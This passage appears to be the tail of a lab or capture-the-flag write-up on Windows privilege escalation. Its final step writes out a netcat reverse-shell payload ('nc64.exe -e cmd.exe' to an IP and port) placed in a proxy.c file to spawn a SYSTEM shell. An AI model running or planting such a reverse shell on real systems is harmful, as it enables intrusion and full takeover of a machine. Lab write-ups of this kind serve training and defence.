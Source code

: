 9. there should now be a file on _c:\output.txt_ 
10. modify the _proxy.c_ file with the payload of choice: `c:\tools\nc64.exe -e cmd.exe 10.11.59.68 4448` + set up listener, and a shell with system privileges was spawned:)